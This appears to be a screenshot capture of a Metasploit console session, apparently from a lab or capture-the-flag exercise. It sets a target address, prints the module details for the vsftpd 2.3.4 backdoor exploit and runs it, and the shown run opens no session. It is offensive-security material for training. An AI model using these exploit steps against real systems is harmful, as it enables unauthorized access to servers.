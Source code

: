 
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > info

       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS  10.10.10.3       yes       The target address range or CIDR identifier
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the
  VSFTPD download archive. This backdoor was introduced into the
  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011
  according to the most recent information available. This backdoor
  was removed on July 3rd 2011.

References:
  CVE: Not available
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > options
